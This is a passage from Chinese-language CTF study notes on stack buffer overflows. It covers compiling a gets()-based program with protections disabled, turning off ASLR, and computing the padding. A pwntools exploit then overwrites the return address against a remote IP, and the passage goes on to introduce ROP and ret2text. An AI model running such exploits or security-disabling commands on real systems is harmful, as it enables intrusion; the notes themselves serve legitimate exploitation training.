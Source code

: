 ```c
# gcc -m32 -fno-stack-protector -no-pie stack1.c -o stack1
stack1.c: In function ‘vulnerable’:
stack1.c:6:3: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   gets(s);
   ^~~~
   fgets
/tmp/ccNeCYTO.o: In function `vulnerable':
stack1.c:(.text+0x45): warning: the `gets' function is dangerous and should not be used.
```

`echo 0 > /proc/sys/kernel/randomize_va_space`

关闭完全部保护

步骤：查看gets()写入的地址距离ebp的长度（计算填充长度）->+ebp的长度->+返回的地址（success()的地址)

![img](https://my-md-1253484710.file.myqcloud.com/20190406211946.png)

![img](https://my-md-1253484710.file.myqcloud.com/20190406212108.png)

poc1.py

```python
#coding=utf-8

from pwn import *

# sh = process("./stack1")
sh = remote("47.106.212.155",10000)
success_addr = 0x08048456

payload = 'a'*0x14 + 'bbbb' + p32(success_addr)
sh.sendline(payload)
sh.interactive()
```

![img](https://my-md-1253484710.file.myqcloud.com/20190406212343.png)

---

### 基本ROP

ROP 攻击一般得满足如下条件

- 程序存在溢出，并且可以控制返回地址。

- 可以找到满足条件的 gadgets 以及相应 gadgets 的地址。

### ret2text

ret2text 即控制程序执行程序本身已有的的代码 (.text)。

示例程序：[ret2text](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2text/bamboofox-ret2text/ret2text)
